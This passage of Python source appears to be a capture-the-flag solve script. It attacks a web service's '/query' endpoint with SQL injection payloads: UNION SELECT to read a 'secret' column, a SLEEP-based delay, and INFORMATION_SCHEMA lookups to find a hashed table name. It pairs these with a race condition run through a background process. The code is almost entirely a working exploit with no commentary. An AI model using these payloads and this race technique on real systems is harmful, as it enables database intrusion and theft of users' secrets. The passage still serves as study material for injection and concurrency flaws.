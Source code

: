   ```python
            json={"user_id":uid, "secret":secret}
        ).text
    
    
    def injection(session : requests.Session, uid : int, query_str : str):
        return session.post(
            url=f"{URL}/query",
            json={"user_id":uid, "query_string":query_str}
        )
    
    
    def get_secret(session : requests.Session, uid : int, tbl_name : str):
        """Retrieve secret from secret user"""
        query = f"abc' UNION SELECT secret FROM {tbl_name};-- "
        return injection(
            session=session,
            uid=uid,
            query_str=query
        ).text
    
    
    def sleep_db(uid : int):
        session = requests.session()
        query = f"abc' UNION SELECT SLEEP(1)--'"    # when the internet connection is good, sleep db 1 second is enough.
        injection (                                 # If not, try 10 seconds
            session=session,
            uid=uid,
            query_str=query
        )
        return None
    
    
    def get_tbl_name(session : requests.Session, uid : int):
        """Get table name of secret user, using another uid"""
        user_id = int(register(session))    # new uid to retrieve table name
        hasher = hashlib.sha1(b"fearless_concurrency" + uid.to_bytes(length=8, byteorder='little'))
        tbl_name = "tbl_{}".format(hasher.hexdigest())
        return injection(
            session=session,
            uid=user_id,
            query_str=f"abc' UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_name LIKE '{tbl_name}%'; -- "
        ).text
    
    
    def main():
        session = requests.session()
        sleep_target = int(register(session))
        print(f"[✓] Registered secret user: {sleep_target}")
    
        process = Process(target=sleep_db, args=[sleep_target])
        print(f"[✓] User {sleep_target} is sleeping now ...")
        process.start()
    
        sleep(1)    # wait for process to start
    
        new_uid = int(register(session))
        print(f"[✓] Registered new user: {new_uid}")
    
        tbl_name = get_tbl_name(session, uid=sleep_target)
        print(f"[✓] Retrieved secret table: {tbl_name}")
    
  ```